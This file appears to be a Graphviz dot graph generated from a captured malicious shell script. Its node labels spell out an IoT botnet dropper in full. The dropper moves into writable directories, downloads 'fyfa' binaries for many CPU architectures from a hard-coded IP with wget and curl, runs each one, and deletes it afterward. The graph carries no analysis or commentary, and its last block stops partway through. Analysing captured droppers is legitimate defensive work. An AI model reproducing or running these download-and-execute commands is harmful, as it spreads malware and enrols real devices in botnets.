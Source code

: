 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://46.166.185.35/fyfa.mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://46.166.185.35/fyfa.mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x fyfa.mips "];
14 -> 16 [label=";,"];
16 [label="./fyfa.mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf fyfa.mips "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://46.166.185.35/fyfa.mpsl "];
30 -> 32 [label=";,"];
32 [label="curl -O http://46.166.185.35/fyfa.mpsl "];
32 -> 34 [label=";,"];
34 [label="chmod +x fyfa.mpsl "];
34 -> 36 [label=";,"];
36 [label="./fyfa.mpsl "];
36 -> 38 [label=";,"];
38 [label="rm -rf fyfa.mpsl "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://46.166.185.35/fyfa.sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://46.166.185.35/fyfa.sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x fyfa.sh4 "];
54 -> 56 [label=";,"];
56 [label="./fyfa.sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf fyfa.sh4 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://46.166.185.35/fyfa.x86 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://46.166.185.35/fyfa.x86 "];
72 -> 74 [label=";,"];
74 [label="chmod +x fyfa.x86 "];
74 -> 76 [label=";,"];
76 [label="./fyfa.x86 "];
76 -> 78 [label=";,"];
78 [label="rm -rf fyfa.x86 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://46.166.185.35/fyfa.arm "];
90 -> 92 [label=";,"];
92 [label="curl -O http://46.166.185.35/fyfa.arm "];
92 -> 94 [label=";,"];
94 [label="chmod +x fyfa.arm "];
94 -> 96 [label=";,"];
96 [label="./fyfa.arm "];
96 -> 98 [label=";,"];
98 [label="rm -rf fyfa.arm "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://46.166.185.35/fyfa.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://46.166.185.35/fyfa.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa.pcc "];
214 -> 216 [label=";,"];
216 [label="./fyfa.pcc "];
216 -> 217 [label=";,"];
217 [label="rm -rf fyfa.pcc "];
217 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://46.166.185.35/fyfa.i686 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://46.166.185.35/fyfa.i686 "];
132 -> 134 [label=";,"];
134 [label="chmod +x fyfa.i686 "];
134 -> 136 [label=";,"];
136 [label="./fyfa.i686 "];
136 -> 138 [label=";,"];
138 [label="rm -rf fyfa.i686 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://46.166.185.35/fyfa.i586 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://46.166.185.35/fyfa.i586 "];
152 -> 154 [label=";,"];
154 [label="chmod +x fyfa.i586 "];
154 -> 156 [label=";,"];
156 [label="./fyfa.i586 "];
156 -> 158 [label=";,"];
158 [label="rm -rf fyfa.i586 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://46.166.185.35/fyfa.m68k "];
170 -> 172 [label=";,"];
172 [label="curl -O http://46.166.185.35/fyfa.m68k "];
172 -> 174 [label=";,"];
174 [label="chmod +x fyfa.m68k "];
174 -> 176 [label=";,"];
176 [label="./fyfa.m68k "];
176 -> 178 [label=";,"];
178 [label="rm -rf fyfa.m68k "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://46.166.185.35/fyfa.spc "];
190 -> 192 [label=";,"];
192 [label="curl -O http://46.166.185.35/fyfa.spc "];
192 -> 194 [label=";,"];
194 [label="chmod +x fyfa.spc "];
194 -> 196 [label=";,"];
196 [label="./fyfa.spc "];
196 -> 198 [label=";,"];
198 [label="rm -rf fyfa.spc "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://46.166.185.35/fyfa.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://46.166.185.35/fyfa.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa.pcc "];
214 -> 216 [label=";,"];
216 [label="./fyfa.pcc "];
216 -> 217 [label=";,"];
}
